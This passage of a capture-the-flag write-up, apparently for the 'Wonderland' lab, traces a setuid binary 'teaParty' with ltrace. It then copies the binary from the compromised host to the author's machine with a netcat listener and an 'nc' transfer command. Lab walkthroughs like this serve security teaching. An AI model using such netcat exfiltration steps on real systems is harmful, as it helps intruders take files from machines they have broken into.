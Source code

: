 ```bash
```
### Let ltrace it
```bash
rabbit@wonderland:/home/rabbit$ ltrace ./teaParty 
setuid(1003)                                                                                                                                       = -1
setgid(1003)                                                                                                                                       = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                                                                                                       = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Fri, 05 Apr 2024 19:32:17 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                                                                                                        = 69
getchar(1, 0x559459346260, 0x7ff7565ae8c0, 0x7ff7562d11542
)                                                                                         = 50
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                                                                                                        = 33
+++ exited (status 33) +++
rabbit@wonderland:/home/rabbit$ 
```find / -type f -name '*.txt' 2>/dev/null
## OK it's made up fault of segmentation 
### Let check strings 
```bash
rabbit@wonderland:/home/rabbit$ strings teaParty 

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.

rabbit@wonderland:/home/rabbit$
```

### ohh i can do it in rabit, let transfer it to my system using netcat
#### Open listener and direct content to a txt file
```bash
┌──(death㉿esther)-[~/Lab-CTF/wonder]
└─$ nc -lvnp 4444 > teaparty
listening on [any] 4444 ...
```
### In rabbit Transfer teaParty file
```bash
rabbit@wonderland:/home/rabbit$ nc 10.17.120.99 4444 < teaParty
c^C
```
### Suspend connection 
```bash
┌──(death㉿esther)-[~/Lab-CTF/wonder]
└─$ nc -lvnp 4444 > teaparty
listening on [any] 4444 ...
connect to [10.17.120.99] from (UNKNOWN) [10.10.159.138] 59842
```